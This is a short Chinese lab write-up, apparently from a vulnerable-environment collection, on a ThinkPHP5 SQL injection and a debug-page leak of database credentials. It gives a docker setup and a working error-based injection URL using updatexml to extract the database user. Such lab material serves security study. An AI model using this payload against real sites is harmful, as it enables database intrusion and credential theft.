


ThinkPHP5 SQL注入漏洞 && 敏感信息泄露¶
运行环境：
docker compose up -d
启动后，访问http://your-ip/index.php?ids[]=1&ids[]=2，即可看到用户名被显示了出来，说明环境运行成功。
漏洞原理¶
漏洞原理说明：
不再赘述。
漏洞利用¶
访问http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1，信息成功被爆出：

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

这又属于一个敏感信息泄露漏洞。